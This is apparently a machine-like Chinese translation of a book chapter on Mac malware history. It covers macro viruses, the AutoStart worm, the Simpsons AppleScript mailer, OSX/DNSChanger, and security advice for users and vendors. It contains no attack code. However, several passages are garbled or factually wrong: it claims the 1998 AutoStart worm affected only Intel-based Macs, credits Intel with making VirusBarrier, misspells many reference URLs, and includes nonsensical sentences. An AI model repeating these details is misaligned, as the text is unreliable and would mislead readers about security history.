传统上，大多数 Mac 用户依赖免费软件包 Disinfectant 和/或明片包 Gatekeeper，或者两者兼有。然而，在 1995 年，第一个在野外的宏病毒出现了。人们很快注意到 WM/Concept 及其兄弟姐妹和后代可以感染硬件平台。不幸的是，这种潜在威胁的存在完全绕过了 Mac 社区。它假定 Mac 用户（尤其是那些不使用 Microsoft Office 的用户）不需要担心被认为是 PC 问题。遗憾的是，事实并非完全如此。除了异构性恶意软件传输的风险外（这种传输通常在插件和宏功能层级与 Microsoft Office 高度兼容），它还引入了其自身的问题。事实上，Microsoft Office 2008 因其完全不支持 Visual Basic 宏，反而几乎中和了数代宏病毒，这显得有些奇特。

这是故意的吗？如果是的话，微软选择优先减少目前这种非常微小威胁带来的相当小的风险，而不是忽视“我的 Basic 宏无法工作了”这一投诉（见图 3.2）给大量使用宏和基于宏的插件的企业带来的潜在不便，这似乎很奇怪。他们可能假设此类企业或高级用户不太可能是 Mac 用户。这甚至可能是他们试图承认，许多 Mac 用户仍然觉得他们并不“拥有”宏病毒问题，并将其视为 PC 用户的问题。

### Office 2008：它真的消除了宏病毒问题吗？

这取决于你接受微软对“我的 Basic 宏无法工作了”这一投诉（见图 3.2）的哪种回答。在 Office 2008 中，无法查看、运行或编辑宏，但只要它们保存为启用宏的文件格式中，就可以保留在文档中。或者它们可以被永久删除。或者正如微软建议的那样，用户可以使用替代的脚本方法；微软推荐 AppleScript。

这些会产生问题吗？嗯，它们不会伤害 Office 2008 用户，但如果与使用启用宏的应用程序（不一定是微软的）的用户共享，就可能会产生问题。这种现象有时被称为“异构传输”。注意，由于公式不依赖于脚本语言，Excel 公式可能仍然是一个（至少在理论上）问题。

在现实生活中，正如 Veselin Bontchev 在他的文章《宏病毒衰落的真实原因》中所讨论的那样，Word 的宏语言在安全方面与第一个宏病毒盛行的 Word 6.x 环境相比已经取得了巨大的进步，该文章可以在 virusbtn.com/virusbulletin/archive/2006/01/vb20061 阅读。如今，Microsoft Office 文档仍然是恶意软件的重要入口，但其形式是 Ripof 和 Gin Wu 等针对性木马，而不是宏病毒瘟疫。通常，此类木马目前针对 Windows 而非 OS X。

### 异构传输

当宏病毒开始成为问题时，由于没有升级到 Word 6.0 而无法被感染（且没有安装感知宏的防病毒软件）的用户可能会成为受感染文档传输的媒介，无论他们本人是否阅读过，因为 5.x 过滤器在读取时没有修改原始文件。

当用户使用不同供应商的处理软件时，也会类似的情况。如果使用“另存为”或类似的命令而不是“保存”（前提是没有保存），文件可能会以当前处理软件的本地格式保存为新文件，而原始文件保持未被修改。鉴于从一种文件格式转换为另一种格式时可能出现的问题，特别是对于复杂文档（例如包含图形或其他嵌入对象的文档），在原则上保留原始文件实际上是合理的。

未经修改的文件。然而，在这种情况下，在不使用已知病毒扫描器的情况下，避免传递被感染文件的唯一保证性方法就是避免传递原始文件。在我看来，这种策略是不可靠的，因为它可能要求一系列范围的用户提供 100% 的理解和配合。

一些建议包括使用如富文本格式（RTF）之类的安全通用格式，或从保存的副本以原始格式（通常是 Word）生成新文档。这并不意味着生成的 Word 文件在所有方面都与原始文件相同（除了缺少宏之外）。“文件 | 保存”操作也可能被病毒伪造，虚假地报告文件已保存到安全文件中。WM/Cap 经常这样做。

有必要保护那些并非直接易受攻击的系统。当然，这是为了防止用户在未来切换到 Word/Office 时的安全，但主要是为了防止 Mac 用户在与易受攻击的系统共享文件时无意中传播被感染的文件。这是一种特殊现象，有时被称为**异构病毒（或恶意软件）传输**（该表达最初可能由 CyberSoft 的 Peter Radatti 创造；详见在 www.radatti.com/published_work/details.php?id=32 的《网络 UNIX 环境下的异构计算机病毒》）。

宏恶意软件实际上只是异构恶意软件传输（HMT）的一个有限例子，因为传输涉及到复制能力和负载效率。如果恶意软件能够在 Mac 上自我复制（后期版本的 Microsoft Office 应用程序可能会发生），这并不构成 HMT，因为这种恶意软件是针对特定应用程序的而非特定平台的。然而，这并不意味着 HMT 问题随着宏病毒而消失了。仍然有许多场景，无法在 Mac 上执行的潜在恶意软件（模拟操作系统环境除外）可以使用 Mac 用户作为中继到达其可以执行的环境。例如，使用近年来鱼叉式网络攻击者频繁使用的一种利用 Office 漏洞的木马。

## 蠕病毒：AutoStart 及之后

AutoStart 9805 曾在 WildList（见图 3.3）中出现过一段时间，作为一种 Mac 特有的威胁，它是独特的。它（可以说）不是病毒，而是蠕虫。它通过复制自己来复制，但不会寄生地附在宿主程序上。原始病毒于 1998 年 4 月在香港和台湾迅速蔓延，并在后一段时间内被广泛报道，尽管现在很少有报道。《Virus Bulletin》1998 年 7 月刊包含了 AutoStart 及其某些变体的全面分析。

68K Mac 及其克隆机无法运行复制代码。它可以在当时可任何版本的 Mac OS 上运行，前提是安装了 QuickTime 2.0 或更高版本，并在“QuickTime 设置”控制面板中启用了 CD-ROM 自动播放。CIAC 公报 I-067 包含了 Eugene Spafford 关于原始 AutoStart 蠕病毒的信息。

图 3.3 摘自 2000 年 5 月的 WildList，地址 http://www.wildlist.org/ WildList/200005.htm

| 病毒名称 | 别名 (es) | 列表 | 报告 | 日期 |
| :--- | :--- | :--- | :--- | :--- |
| BackOrifice.2000.... | | | 11/99 | EXPnSkStXc |
| DunPws.W.Trojan.... | [Kuang,C. Winski] | | 9/99 | AkTe |
| ICQ2000.RAS.Trojan.... | [ICQ2R....] | | 11/99 | Sh |
| Mac/AutoStart.Worm.... | | | 11/99 | GbEwSm |
| Stealth.Backdoor.... | | | 10/99 | Ek |
| SubSeven.Backdoor.... | [Backdoor....] | | 7/99 | ACAsJhnSkSoTc |


# WildList 与 AutoStart 变体

WildList 是一个在野外报告传播的病毒列表。有时根据各种报告，WLO 会收到某些程序的报告，这些程序可能不严格符合病毒范畴，但引起了相关忧虑用户的注意。以下程序就属于这一类。

共有五种 AutoStart 变体：`9085-B`、`-C`、`-D`、`-E` 以及 AutoStart `9085-F`（曾被称为 `9086-F`）。

AutoStart 仅影响基于 Intel 的 Macintosh 和运行 Mac OS 的系统。最常见的感染手段（只需通过挂载被感染的 HFS 或 HFS+ 卷即可实现）需要 QuickTime 2.0 或更高版本处于激活状态，并启用“启用 CD-ROM 自动播放”选项；在“QuickTime 设置”控制面板中关闭该选项可以防止感染。如果设置已被感染，或者从带有 Extensions 文件夹的启动项启动，这种保护就会失效。

然而，感染文件会被复制到服务器卷、68k Mac、不支持系统内的 Extensions 文件夹，以及系统文件夹外名为“Extensions”的其他文件夹。

AutoStart `9085-B` 可能会对 JPEG、TIFF 和 EPSF 文件造成损坏。C 和 D 并没有故意破坏数据。AutoStart `9085-E` 和 `-F` 结合了 A 和 B 的效果。最明显的症状可能是，被感染的系统每隔 6、10 或 30 分钟就会锁定一次，并产生无法解释的磁盘活动。

# Mac.Simpsons@MM 邮件发送器

2001 年 6 月，Mac 用户经历了他们自己的邮件发送器。这个小家伙有多个名字，`Mac.Simpsons@MM` 算是一个标准的。它实际上是一个 AppleScript 邮件发送器，因此只在 Mac 上运行，而 Mac 是支持该语言的唯一主要平台。它通过 Microsoft Outlook Express 或 Entourage 传播，将其转发给受害者地址录中的所有姓名。在执行时，脚本尝试使用 Internet Explorer 连接到 `<www.snpp.com/episode-guide.html>`。

一段时间内，这引起了媒体的极大兴趣，因为它是第一个（也是最后一个）Mac 特定脚本邮件发送器。虽然不一定具有破坏性，但它会删除受害者“已发送”（Sent Items）文件夹中的所有内容（可能是为了让受害者难以检查感染；Windows 邮件发送器已不再使用 MUA，这使得它们无法通过 Outlook 追踪）。原则上讲，任何支持脚本的邮件客户端都可以以类似的方式被利用，因此未来的 AppleScript 蠕病毒可能不再限于 Microsoft 邮件发送器。我们仍在等待。

它以电子邮件的形式到达，主题为“辛普森家族秘密剧集”，正文内容如下：“数百集《辛普森家族》刚刚制作并发送到了互联网。如果你收到了这条消息，剧集位于附件程序中，该程序只会在 Mac 上运行。你必须拥有系统 9.0 或 9.1 才能高质量地观看这些幽默剧集。只需下载并打开即可。来自 [发送者姓名]”。为了获得随机签名，将文本文件放入“Random Signatures”文件夹，并将其放入你的偏好设置（Preferences）文件夹。

如果启动，脚本会将自己复制到系统文件夹中的启动项（Start-Up Items）文件夹，并将其邮件发送到 Outlook 或 Entourage 地址录中的地址。

# OS X 与恶意软件

OS X 基于 Unix，其安全世界观比之前的 Mac OS 更具安全意识，尽管 Windows NT 也是如此。在 OS X 的生命周期内，漏洞被发现、发布并修复（不一定按此顺序）。这是本应如此的，但当我听到这使得该平台（据称）免受恶意软件侵害时，我不禁想为什么同样的逻辑不能让 Windows 免受恶意软件侵害。对此问题的部分答案可能在于，该论点包含了一个或多个隐含假设：

- Apple 的更新机制优于 Windows 更新机制。几年前可能确实如此，但近年来，这两大操作系统提供商在这方面的实践已经有了很大趋同。
- 两个平台发现的恶意软件数量差异，完全是因为 OS X 的内在不可侵性和 Windows 同样的内在脆弱性，这与补丁机制无关。这种观点在我看来，充其量是未证实的。
- 操作系统和应用程序漏洞是导致恶意软件入侵的主要原因。稍后，我们将看到一些暗示相反的图表。

# 地下笔记

## OS X 恶意软件

自从 OS X 成为主流以来，Mac 世界在安全方面还发生了什么？曾出现间歇性的（大部分为概念验证 PoC）恶意软件报告。

- **OSX/Leap** 通常被描述为蠕病毒，因为它通过 iChat 即时通讯应用程序进行复制。它将目标文件数据分支（data fork）的内容复制到 Macarena 的资源分支（resource fork）中，然后将自己复制到数据分支。
- **OSX/Macarena** 是一个意外传统的文件病毒，在执行时会感染同一文件夹中的 Intel 二进制文件。
- **OSX/Inqtana** 通过蓝牙传播。

已报告了若干根内核工具（rootkits）（见 `www.rootkit.com`），尽管只有 Opener/Renepo（某些人认为它不是根内核工具）在安全社区之外获得了大量关注。事实上，到目前为止的几乎所有根内核工具（有时使用隐形工具可能是更合适的术语）都需要管理员权限才能安装；然而，其他平台上的许多根内核工具也是如此。

我们正处于某种平衡状态。反恶意软件行业由于经常受到 Mac 粉丝和那些经常在 Slashdot 上活跃的“即时专家”的攻击而保持警惕，这些人坚称“Mac 目前比 Windows 更安全，但这种情况可能会变化”。这种情况发生变化了吗？或者我们至少正在接近一个临界点？

## 案例研究–OSX/DNSChanger

2007 年秋季，我们观察到了首批（宏病毒除外）针对 Windows PC 和 OS X 的攻击之一。该攻击的感染媒介是一个伪造解码器（codec），只有在用户被骗下载并执行它时才有效。针对 OS X 的恶意软件攻击类似于 `W32/Zlob`，尽管与某些 Windows 恶意软件相比，它并不特别复杂。它由一个 dmg 安装包组成，只有在用户双击并安装后才能运行。安装过程在受害者系统上创建了关键配置，更改了域名服务器（DNS）配置，将所有 DNS 查询重定向到托管在俄罗斯业务网络（RBN）上的服务器。攻击者可以此查询重定向到银行和在线交易网站，以此窃取受害者的账户信息。

解码器是一种实现视频压缩和解密的软件组件。欺骗受害者认为他们需要下载特殊的视频解码器长期以来一直流行的感染媒介。用户被引导至声称包含“有趣”视频（通常并非总是色情内容）的网站，为了这些视频他们需要安装解码器。

这种 Mac 木马最初由英特尔（Intel，他们生产一种名为 VirusBarrier 的 Mac 专用杀病毒产品）报告，正如 `www.intel.com/ism0705.asp` 所述，大多数供应商将其称为 `OSX.RSPlug.A`、`OSX/Puper` 或 `OSX/DNSChanger`。它与 Windows 家族恶意软件的 `W32/Puper` 或 `W32/Zlob` 家族具有程序上的联系。虽然它的影响不如 AutoStart 或某些强力 Windows 蠕虫那样大，但它是多年来最重大的 Mac 威胁之一。快速且粗略的风险评估似乎表明（截至 2008 年 3 月），在 Mac 用户群体中没有巨大影响，但它仍然具有重大意义和启示性。它至少证明了犯罪元素在试水方面表现出的浓厚兴趣。

虽然 Mac 用户经常声称新的 Mac 恶意软件只是概念证明（PoC），但这在这里并不真正适用。它已经在太多地方出现，并且不断出现新变体，这表明网络犯罪分子正在投入大量的时间和开发资源，而这些变体正在获取源源不断的受害者。

## 损害与防御

一些 DNSChanger 链接：

- `www-f-secure.com/v-descs/trojan_osx_dnschanger.html`
- `http://vil.nai.com/v/content/v_143511.htm`
- `www.sophos.com/security/analyzes/osxrspluga.html`
- `http://blogs.secureitam.com/index.php/archives/1029`
- `www.avertabs.com/research/blog/`
- `www.avertabs.com/research/index.php/2007/10/31/crimeware-comes-to-os-x/`
- `http://isc.sans.org/diary.html?storyid=3595`
- `www.sunbeltblog.com/`
- `www.us-cert.gov/current/-mac_dns_changer_trojan`
- `www.sophos.com/pressoffice/news/articles/2007/11/mac-osx-trojan.html`
- `www.bleedingthes.net/index.php/2007/11/01/sig-for-the-new-mac-trojan/`（包含智能签名）。
- `http://sunbeltblog.blogspot.com/2007/11/mac-security-counterpoints.`

这种特定威胁的意义不在于它是一个恶意软件。正如我们已经看到的，恶意软件多得是许多，尽管大部分早于 OS X 出现，且在 OS X 环境中无法正常运行或根本运行，即使是那些仍然支持 Classic 模式系统也是如此。（本质上，这是一个 Intel 架构上不支持的模拟环境。）不应该忘记的是，仍然存在可能在 Mac 系统中传播的微病毒。

这是第一个针对 OS X 的特定威胁。它不是那种“脚本小子”（script kiddie）水平的、“嘿，看我，我写了一个 Mac 木马”的尝试。它不是一种能让作者炫耀资本的复杂“概念证明”威胁，而且不太可能在现实世界中看到。它并不特别复杂，但许多“成功”的恶意软件也是如此。

它不像 AutoStart 蠕虫那样在整个 Mac 世界中传播。但它是不同的。它表明“专业”犯罪元素正在考虑并实施感染或利用 Mac 以及 Windows 机器的可能性。它使用了一种类似的程序化和社交工程方法，这种方法曾被非常成功地用于出于纯粹犯罪目的利用 Windows 机器。

# 第 3 章 恶意 Mac：恶意软件与 Mac

（在这里，“成功”并不意味着“在很大范围内剧烈传播并被媒体报道为互联网的终结”。它的意思是许多真实的人继续受其害）

大多数 Mac 社区媒体以冷静且负责任的态度报道了此事，而不是采取那种反射性的反应——“Mac 没有恶意软件问题，任何不承认这一点的人都是疯了”。

## Mac 粉丝的观点

防病毒软件公司将这种特定的木马归类为低风险，所以这并不重要。（奇怪的是，我曾见过有人持有这种观点，而且他们还固执地认为防病毒公司在夸大这个问题。）

## 非 Mac 粉丝的观点

风险可以通过多种方式进行评估，并组合成低/高/中风险风险矩阵。以下是一些经典的针对恶意软件的分析方法：

- 潜在感染数量（频率）
- 对个人用户/系统的影响
- 对社区的影响（支持负载、对通信的影响、心理社会方面的并发症）

从历史角度来看，受病毒感染的站点和系统数量通常被认为比对个人的影响更重要。在木马时代，这种模型已不再完全为 true。例如，单种银行木马的小规模运行，可能对系统的个人用户产生灾难性的影响。遗憾的是，一些防病毒信息网站并没有说明它们所使用的风险评估模型，而且不同厂商的网站之间也缺乏一致性。下一章将更详细地讨论防病毒实践。

> 木马并不重要，因为它们不进行自我复制。

只有在你认为广泛传播很重要时，这一点才成立。好吧，在某种意义上，它确实如此：潜在的受害者意味着更多的潜在利润。事实上，在过去的十年早期，有一个明显的转型点，病毒传播被用作快速建立大型僵尸网络的手段。但病毒的自我传播重要性小得多，因为发送垃圾木马几乎和编写和分发自我复制代码一样廉价，而且惊人的传播速度很少是其本身的目的。事实上，现代趋势是避免追求奇观，而是……

几乎没有 Windows 恶意软件需要用户干预，因此社会工程学完全不是一个因素。

这是一个彻头彻尾的谬误，在“自我启动与用户启动”章节中已进行了详细讨论。

## Mac 粉丝的观点

## 非 Mac 粉丝的观点

“这都是由于讨厌 Mac 的人正在寻找机会攻击 Mac 和 Mac 用户。”

快讯新闻：这个世界并不是分为使用 Mac 的人和使用 PC 的人。尽管如果知道以下人群的相对比例会很有趣：

- 只使用 Mac 的人
- 仅使用 PC 的人
- 主要使用 Mac 的人
- 主要使用 PC 的人

然而，我不想深入探讨平台偏好的心理学。存在一群核心 Windows 用户，他们反 Mac，就像有些 Mac 用户反 Windows 一样。他们不值得更多的关注。让我们消灭“只有病毒才重要”的常见谬误。我们可以争论特定恶意软件的比较重要性/影响，木马作为一个整体是一个严重的问题，而它们并不一定能自我传播（显然没有像快速传播型病毒那样快或远），这一事实并没有你想象的那么重要。对于犯罪目的，纯粹的传播速度不如演化和多态性——这里指的不是 1990 年代复杂但有缺陷的多态性，而是由恶意网站不断提供和刷新的变体、亚变体和更新。我指的犯罪目的是指使用计算机系统执行犯罪的通用网络犯罪，而不是专门针对病毒的创建或传播。

在用户脆弱性（而非系统脆弱性）方面，主要的担忧是普通订阅者的网络健康。他们对恶意软件的了解比他们认为的少得多，但可能不会大量落入此类攻击。然而，他们有能力误导 Mac 用户，而 Mac 用户（就像大多数 Windows 用户一样）不知道内部发生了什么，对于他们得到的结论是“Mac 是安全的，危险的”。奇怪的是，许多 Mac 专家在讨论了上述的谬误和自相矛盾列表后，静下来冷静、理性地讨论了相关问题。

## 自我启动 vs 用户启动

Mac 社区中存在一种持久的迷思，认为 Windows 恶意软件主要是“自我启动”的；也就是说，它不需要执行或安装自己，因为它利用软件漏洞、路过下载、缓冲区溢出和权限提升来强制自己进入系统。

这种不需要用户干预的恶意软件是存在的，而且存在了很多年（可以追溯到 1980 年代的早期病毒）。有些恶意软件是混合型的，它们并不依赖漏洞。但大多数恶意软件在感染过程的某个点需要用户交互。

受尊敬的研究人员和安全权威 Roger Grimes 估计，“86% 的公开漏洞是客户端攻击”（其原始文章见 `www.infoworld.com/article/07/19/advice.html`）。这个数字源于非正式的研究，因此绝非定论，它也没有涵盖所有平台，但我怀疑他的方向是正确的。如果是这样，这意味着通过“社会工程学”误导受害者运行恶意软件的手段，仍然比利用漏洞的恶意软件更具“成功”。

### 工具与陷阱：用户启动的威胁

对于他的（相当非正式的）研究，Roger Grimes 将 Secunia（一个漏洞公告网站）与微软的安全公告以及 CVE（常见漏洞与披露）数据库进行了对比，后者试图对安全漏洞进行命名（访问 CVE 网站 `http://cve.mitre.org/`）。他告诉我们，他审查了 270 个注册 CVE 的漏洞。

Grimes 将研究限制在 2006 年和 2007 年。他关注 XP Service Pack 2 及之后的 Windows 版本，以及这些平台上特定的或可利用的漏洞，例如 Internet Explorer 和 Microsoft Office。在他所研究的漏洞中，86% 是用户启动的，而只有 14% 是非交互式的（自我启动）。在后者中，21% 需要经过认证的连接或管理员权限。他的结论是：“客户端漏洞比远程攻击普遍得多。大多数恶意攻击需要终端用户点击链接或文件。”

### 图 3.4 F-secure 为苹果从火中救出栗



然而，其他网站的信息更灵通，有些甚至在杀毒病毒定义普遍可用之前就发布了它们。当时很少出现“因为没有 Mac 病毒，所以这不是问题”的规避行为。安全来源的反应同样敏锐。请见图 3.5 以及网页 `www.bleedingthreats.net/index.php/2007/11/01/sig-for-the-new-mac-trojan/`。

### 图 3.5 社区的快速响应



# 是幸灾乐祸还是末日将至？

OSX/DNSchanger 是一个信号，而不是库斯特最后的殊死战。到目前为止，Mac 用户还没有大量陷入那种特定的社会工程骗局（一个伪装成查看色情内容所需下载的伪解码器），但人数足以表明社会工程是一种成功的 Mac 攻击，而且还有许多其他方法可以欺骗 Mac 用户。然而，通用安全社区也提到了未修复的漏洞，以及供应商和用户方面的掉以轻心。这也许是可以理解的，考虑到某些人坚持 OS X 是一个完美且绝对安全的操作系统。

# 第 3 章 恶意 Mac：恶意软件与 Mac

许多 OS 漏洞已得到修补，苹果在推送系统更新和补丁方面略领先。OS X 并不像 W98 那样比 Vista 更老。微软转向了 NT 并借鉴了 VMS 的东西，而 Apple 则转向了 BSD，为构建提供了良好的安全基础。

尽管如此，OS X 摆脱大多数 X 之前恶意软件的方式，与 Windows 3.x 之后对早期启动扇和文件病毒的免疫力增强的方式之间可能存在相似之处。如果你假设这种偶然的短期内不可侵犯性是永久的，你将会失望的。如果坏人对利用 Mac 用户保持兴趣，他们会找到办法的。

# 就这样了吗？

嗯，情况比你想象的要多。那个“拙劣木马”实际上以许多变体存在，而且它们层出不穷。其他团伙是否会生成自己的 Mac 恶意软件还有待观察。目前还没有出现热潮，但对 Mac 平台的兴趣要大得多。

媒体（包括像 Heise (`www.heise.de`) 等面向安全的出版商）正以前所未有地密切跟踪 Mac 问题。

将 Mac 产品纳入其产品范围的安全供应商不仅在跟踪，还在提供更多针对 Mac 的特定信息（在某些情况下，观点比以前更悲观）。更具说明性的是，以前对 Mac 领域毫无兴趣的供应商开始抢抢市场推出 Mac 产品。


# 恶意 Mac：恶意软件与 Mac · 第 3 章

我们正看到在广告软件和间谍软件等相关问题中，针对 Mac 的特定问题正在增加。例如，F-Secure 等人在 2008 年初宣布的流氓反间谍软件应用程序（见图 3.6）。那些声称能发现完全虚构的威胁（实际上可能无法检测到任何真实威胁）的产品，在 Windows 平台上是常见的骚扰。（在我们对本章进行最后编辑时，我注意到 Heise 等人正在报道这种流氓应用程序的变体：www.heise-online.co.uk/security/More-fake-anti-spyware-for-the-Mac--new/110414。）

对于 Mac 用户来说，这是一个有趣的时代。我指的不仅仅是苹果在设备和配件上的持续扩张，甚至包括极少数的 POC 旨在证明 OS X 可被利用的恶意软件，以及安全行业、媒体和匪徒都在对该平台投入更多关注。去年，Mac 版本的 DNSchanger 木马引起了巨大关注，而今年我们看到了流氓反间谍程序。移植到 OS X 的 Linux 后门，以及一个为 Linux、FreeBSD 和 Darwin 编译的（非恶意）机器人。三月，virus.org 的论坛充斥着藏有 DNSchanger (RSPlug) 木马的网站链接。

这一切都非常新颖且有趣，但意义重大吗？嗯，某些产品范围包含或将包含 Mac 产品的供应商显然是这么认为的，因为他们增加了对 Mac 漏洞和问题的关注。

市场有多大？比你想象的要大。如果你关注 The Register 等地方的评论，普通的 Mac 用户可能分为两类：那些坚持没有 Mac 恶意软件、从来没有过 Mac 恶意软件的人，以及相信他们观点的人。（顺便说一下，The Register 本身似乎介于两者之间。虽然该网站报道了许多与 Mac 相关的恶意软件故事，但其团队似乎产生了一种奇怪的印象，认为自 1992 年以来就没有 Mac 恶意软件了。）

所以，至少在某种形式的恶意软件真正像 20 世纪 90 年代的宏病毒和自动启动程序那样在 Mac 社区中广泛快速传播之前，可能还没有多大的消费市场。然而，拥有混合平台的实体可能更容易注意到，过去几年那些有趣的、低影响的 POC 病毒与今天的 Mac 恶意软件之间存在区别，这以其自身微小的方式反映了本世纪 Windows 威胁格局的剧烈变化。Mac 粉丝们是对的：Mac 病毒要么已经过了巅峰期，要么几乎没有实际影响。当然，PC 病毒的重要性也在降低。对于许多恶意软件来说，选择复制的能力已不再重要，因为这对于赚钱（甚至偷取钱）的能力至关重要。投资回报率（ROI）驱动着恶意软件的发展，以及炫耀的资本。（“看！我写了一个 Mac 病毒！”。或者，如果你是世界语的作者，写一个嵌入了一些 Mac 内容的 PC 病毒，让它看起来像多平台病毒）。


### 图 3.6 第一款（？）Mac 流氓反间谍软件产品的公告


## 未来

色情材料是社会工程师可以使用的唯一方法（无论他们是否是 Mac 用户）。什么形式的社会工程对 Mac 用户有效？

- 伪补丁
- 标准银行、拍卖网站等
- 免费游戏
- 其他软件

苹果还可以采取哪些进一步措施来保持对微软的领先？

www.syngress.com

- 警告用户其即将进行或授权系统级更改。
- 教育具有管理权限的用户，创建非特权用户账户并默认从这些账户运行的必要性。当我还是一个年轻的系统管理员时，通常从非特权账户工作，并在需要执行特定任务时切换到管理员账户可能被认为是良好的做法。遗憾的是，现在的每台桌面电脑的功能都与当年的服务器和多用户系统相当，许多家庭用户对这个问题完全没有概念，这种观念变得很难传递。
- 通过设置组策略和从 `/etc/sudoers` 中移除此类账户，向不需要且不应被赋予管理权限的用户隐藏管理员密码。
- “加固”管理组以防止人为漏洞攻击。换句话说，不要假设你的 IT 支持人员都是全能的安全专家，且对社会工程攻击免疫。
- “精简”用户组（例如：admin、local admin、高级用户、非特权用户）。
- Mac 企业级解决方案

## 给用户社区的信息

我不知道有多少 Mac 终端用户会读到，但有几点值得记住的观点：

- Mac 也会感染恶意软件。虽然数量不是 Windows 用户所遭受的分之一，但已经多到超出范围，而且可能会继续增长。
- 恶意软件并不一定具有病毒性才具有危险。“这只是一个木马”在 10 或 20 年前可能是一个令人宽慰的想法，但木马现在已是一个非常大的威胁。
- 安装并维护合格的安全软件（系统和应用程序补丁等）。
- 不要期望安全软件能为你提供 100% 的保护。例如，假设防病毒软件会捕捉未知的恶意软件；实际上，如果它真的好用，确实能捕捉很多。然而，防病毒软件行业最大的失败不在于无法提供 100% 的保护——没有任何安全软件能做到这一点——而在于它不愿传达“因为我有防病毒软件保护，我可以点击任何东西”这种心态充其量是天真的，更不用说是错误的。
- 不要掉入“我用 OS X，Apple 会保护我”的陷阱。Apple 甚至没有说“完全不需要使用安全软件，即使是反病毒软件”。事实上，它们在网站上甚至指向了一些产品。
- 保持更新状态。（在运行 OS X 的机器上，Apple 的更新应该是自动化的。遗憾的是，安装更新需要密码这一事实，导致终端用户在其他情况下也将此类密码请求视为常态。）
- 听从你的 IT/安全团队的建议。接受安全并不总是方便的，也并非理所当然。
- 给具有管理权限的用户的备忘：始终对任何管理员密码的提示保持怀疑。这表明某些东西正在被安装。如果你并没有打算安装某些东西，停下！如果你确实要安装，请思考你应该做什么。
- 如果你为基于 Mac 的办公室或组织提供桌面管理，请始终创建用户账户，并仅在迫不得已的情况下泄露管理员密码。
- 在不需要时，不要使用管理员账户。

## 给 Apple（以及微软！）的信息

软件出版的艺术某种类似于走钢丝。出版者永远悬挂在竞争的需求之间（工程与营销、安全与便利、质量保证与公共关系、已完成的产品与不可逾越的截止日期）。尽管如此，操作系统软件的出版者有责任对其客户负责：

- 当涉及他们未来的安全时，不要用营销手段代替信息。
- 如果你优先考虑方便的配置，请明确说明它可以变得更安全，并让加固变得简单（我喜欢安装后出现“安全向导”的建议）。
- 接受教育他们并提供有关安全实践和可用工具的可靠信息的责任。
- 提供可靠的安全功能信息，而不是“WonderOS 让你更安全，因为它没有病毒”。
- 从董事会级别开始在你的企业内部建立安全意识和专业知识。不仅是为了企业，更是为了你的客户。

## 观察与学习

衡量这一趋势的长期影响不会完全简单，尤其是有这么多 Mac 用户根本不安装安全软件，更不用说防病毒软件。但我们可以从反恶意软件社区学习一些东西，至少是在监控新版本、变体和衍生版本方面。采用和跟进的速度本身就是“成功”或“失败”的指标。把争论留给青少年极客吧。现在是表现专业的时候。观察并采取行动。

Apple 能从微软那里学到什么吗？OS X 以 BSD 工具包作为起点，从合理的安全的开始。无疑比非 NT 版本的 Windows 好得多，但并没有完全意识到安全工作尚未完成。在我看来，在某些方面，Leopard 仍然领先于 Vista，但 Apple 的思维是落后的。他们还没有达到微软在本世纪初期的水平，当时他们开始承认客户期望安全，即使他们提供我们的很多东西仅仅是“安全表演”。

## 总结

在 20 世纪 90 年代初，我们反复告知没有 Mac 病毒。（确实有，但它们大多影响小、传播范围窄。）即使在被承认存在的情况下，我们也假设：

- Mac 界面的图形化特性使其免受恶意软件的侵害。
- 底层架构的内在安全性使其免受恶意软件侵害。
- 像 Gatekeeper、Interferon 和 Disinfectant 这样的免费软件会处理任何可能构成威胁的任何恶意软件，包括后来出现的宏病毒。

在 20 世纪 90 年代中期，宏病毒问题影响了每个人，但在某些环境中，由于 Mac 社区对许多问题的应对能力而加剧了这一点。不仅是因为他们选择的环境并非不可侵犯，免费软件无法检测一切（实际上从未检测到），而且作为更广泛社区的成员，他们有责任不无意传播恶意软件。如果我可以引用我 1997 年的一篇论文：“允许我引用哈利的病毒管理第一法则：病毒没有在你的系统中被感染或触发，并不意味着你对传播它不负责。”

- 媒体需要更好的信息来源，以及对这些问题有更好的理解。
- 反恶意病毒软件供应商需要重新考虑它们如何处理跨平台的威胁。

